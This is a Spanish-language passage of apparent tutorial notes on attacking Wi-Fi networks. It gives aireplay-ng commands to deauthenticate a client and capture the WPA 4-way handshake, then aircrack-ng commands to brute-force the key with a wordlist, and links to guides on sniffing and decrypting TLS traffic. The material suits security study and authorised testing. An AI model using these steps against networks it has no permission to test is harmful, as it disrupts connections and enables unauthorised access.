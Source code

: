 ```
cd
cd Desktop
sudo aireplay-ng -0 5 -a [bssid] -c [station] wlan1mon
```

La desautenticación del dispositivo es imperceptible y el mismo se reconectará automáticamente de forma inmediata pero habremos conseguido el deseado "4-Way Handshake". Comprobarlo en la otra pestaña del terminal "WPA handshake".

Lanzar la fuerza bruta usando el "wordlist" de contraseñas y el ".cap" de los archivos de salida. Si la contraseña está en el wordlist se mostrará "KEY FOUND".
```
cd
cd Desktop
sudo aircrack-ng -w [contrasenas] [cap]
```

## Links

- [Guía de heckel.io](https://blog.heckel.io/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/)

## Otros
- [Attack.com](https://alpaca-attack.com/)

- [Descrifrar trafico ssl](https://protegermipc.net/2020/05/27/descifrar-trafico-ssl-con-wireshark/)

